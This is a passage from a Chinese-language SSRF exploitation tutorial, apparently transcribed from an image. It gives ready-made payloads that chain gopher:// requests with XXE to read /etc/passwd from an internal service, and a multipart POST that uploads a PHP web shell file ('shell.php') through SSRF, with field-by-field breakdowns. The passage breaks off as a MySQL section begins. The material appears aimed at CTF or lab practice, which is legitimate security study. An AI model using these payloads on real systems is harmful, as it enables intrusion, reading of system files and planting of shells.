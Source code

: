 * **关键 Gopher 部分：**
    * `_POST /flag.php HTTP/1.1`：标准的 POST 请求。
    * `Content-Type: application/xml;charset=utf-8`：指定 XML 内容。
    * `Content-Length`：必须与 XML 载荷的字节长度匹配。
* **XML 载荷：**
    * `<!DOCTYPE root [<!ENTITY % xxe SYSTEM "file:///etc/passwd">]>`：定义一个外部实体 `xxe`，指向 `/etc/passwd`。
    * `<user><username>&xxe;</username><password>&xxe;</password></user>`：XML 数据，当内部服务解析此 XML 时，`&xxe;` 将被 `/etc/passwd` 的内容替换。

内部服务的响应 (可能会通过初始 SSRF 点中继回来) 将包含 `/etc/passwd` 的内容。

---

### 9. SSRF 到文件上传利用 📤

**核心原理：**

如果内部服务具有文件上传功能，可以使用 SSRF (通常使用 `gopher://` 构造 `multipart/form-data` POST 请求) 将恶意文件 (例如，Web Shell) 上传到该内部服务器。

**载荷构造 (通过 Gopher POST)：**

目标是一个内部的 `/flag.php` (假设它处理文件上传)。

```
gopher://<内部上传服务IP>:<端口>/_POST /flag.php HTTP/1.1%0d%0AHost: <内部上传服务IP>%0d%0AContent-Type: multipart/form-data; boundary=----WebKitFormBoundaryT6Y8KVzK8lYyjzQ9%0d%0AContent-Length: <multipart载荷长度>%0d%0A%0d%0A------WebKitFormBoundaryT6Y8KVzK8lYyjzQ9%0d%0AContent-Disposition: form-data; name="file"; filename="shell.php"%0d%0AContent-Type: image/jpeg%0d%0A%0d%0A<?php phpinfo();?>%0d%0A------WebKitFormBoundaryT6Y8KVzK8lYyjzQ9%0d%0AContent-Disposition: form-data; name="submit"%0d%0A%0d%0ASubmit%0d%0A------WebKitFormBoundaryT6Y8KVzK8lYyjzQ9--
```

* **关键 Gopher 部分：**
    * `Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryT6Y8KVzK8lYyjzQ9`：定义文件上传的内容类型和边界字符串。边界字符串在整个载荷中必须一致。
    * `Content-Length`：必须是 multipart 主体的总长度。
* **Multipart 主体分解：**
    * `------WebKitFormBoundaryT6Y8KVzK8lYyjzQ9`：边界分隔符。
    * `Content-Disposition: form-data; name="file"; filename="shell.php"`：定义表单字段名称 (`file`) 和上传内容的文件名 (`shell.php`)。
    * `Content-Type: image/jpeg`：(可以是任何类型，有时用于绕过简单的检查。实际内容是 PHP。)
    * `<?php phpinfo();?>`：恶意文件内容 (一个简单的 PHP info shell)。
    * `%0d%0A`：URL 编码的 CRLF，用于分隔行和部分。
    * 载荷以边界后跟 `--` 结束。

---

### 10. SSRF 到 MySQL 未授权查询 (数据库)

**核心原理：**

如果内部 MySQL 服务器在没有身份验证的情况下监听 (或者具有可通过 SSRF 访问的服务器已知的弱凭据)，您可以使用 `gopher://` 发送原始 MySQL 协议数据包来执行查询。

**执行步骤与载荷构造：**
